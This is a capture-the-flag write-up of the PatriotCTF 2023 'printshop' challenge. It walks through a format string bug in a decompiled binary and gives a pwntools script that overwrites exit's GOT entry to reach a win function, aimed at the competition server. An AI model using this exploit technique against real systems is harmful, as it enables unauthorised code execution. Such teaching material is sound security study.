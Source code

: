 ```yaml
---
title: printshop - pwn - PatriotCTF 2023
slug: printshop
published: 2023-09-29
author: kako57
description: Automated Format String Exploitation using pwntools
---
```


## About the challenge

This binary was for the challenge printshop in PatriotCTF 2023.


[Link to binary](/files/printshop/printshop)

## Initial Exploration

We were only given the binary and no other libraries.

```
$ pwn checksec printshop
[*] '/ctfs/patriot-ctf/printshop/printshop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Reversing the binary

Decompiling the main function in radare2 (with r2ghidra), we get this:

```c
void main noreturn (void)

{
    int64_t in_FS_OFFSET;
    ulong format;
    ulong var_8h;
    
    var_8h = *(in_FS_OFFSET + 0x28);
    sym.imp.puts("\nWelcome to the Print Shop!");
    sym.imp.printf("\nWhat would you like to print? >> ");
    sym.imp.fgets(&format, 100, _reloc.stdin);
    sym.imp.puts("\nThank you for your buisness!\n");
    sym.imp.printf(&format);
    // WARNING: Subroutine does not return
    sym.imp.exit(0);
}
```

There is also another function that prints us the flag:

```c
void sym.win(void)

{
    int64_t iVar1;
    char c;
    ulong stream;

    iVar1 = sym.imp.fopen("flag.txt", 0x402008);
    if (iVar1 == 0) {
        sym.imp.puts("Flag is missing, contact an organizer.");
        sym.imp.fflush(_reloc.stdout);
    // WARNING: Subroutine does not return
        sym.imp.exit(1);
    }
    c = sym.imp.fgetc(iVar1);
    while (c != -1) {
        sym.imp.putchar(c);
        sym.imp.fflush(_reloc.stdout);
        c = sym.imp.fgetc();
    }
    sym.imp.fclose(iVar1);
    return;
}
```

## Identifying the vulnerability

In this binary, there is a vulnerability in the main function: `sym.imp.printf(&format)`, which is a format string vulnerability. This is because format can be modified by user input.

## Exploitation

### Steps

1. Know how to communicate to the program, so we can reach the vulnerable `printf` call
2. Figure out how to trigger the format string vuln
3. Find the correct offset that allows us to have enough arbitrary write in the memory segment we want to overwrite.
4. Plan a GOT overwrite so `exit` points to `win`.
5. Craft the payload that uses the correct offsets and correct format specifiers to do the GOT overwrite.
6. When it runs, the `printf` should trigger GOT overwrite, and once `exit` is called, it should print the contents of `flag.txt`.

### How do we communicate to the program?

To exploit this, we can use the `pwnlib.fmtstr` module from pwntools. We can define how the payload will be sent, so we can automate the creation of the payload later, while our  following the input/output sequence the vulnerable program expects.

```python
from pwn import *

elf = context.binary = ELF('./printshop')

def get_io():
    if args.REMOTE:
        # nc chal.pctf.competitivecyber.club 7997
        io = remote('chal.pctf.competitivecyber.club', 7997)
    else:
        io = process(elf.path)
    return io

# format string exploit helper
def send_payload(payload):
    print('payload: ', payload)
    print('payload length: ', len(payload))
    io = get_io()
    io.sendlineafter('>> ', payload)
    ret = io.recvall()
    # just find the flag in the output and print it if it's there
    if ret is not None and b'pctf' in ret:
        print(ret)
    return ret
```

## How do we get to the `win` function?

The vulnerable `printf()` call, the program immediately exits by calling `sym.imp.exit(0)`. We can do a GOT overwrite where we change the function pointed at the GOT for the calls to `exit()` and make it point to `win()` instead. If we do this, when `sym.imp.exit(0)` is called, the program jumps to `win()` instead of the implementation of `exit` provided by libc.

Because we have set up how we send the payload, we can just automate the exploit with the following code:

```python
sheeesh = FmtStr(execute_fmt=send_payload)
sheeesh.write(elf.got['exit'], elf.sym['win'])
sheeesh.execute_writes()
```

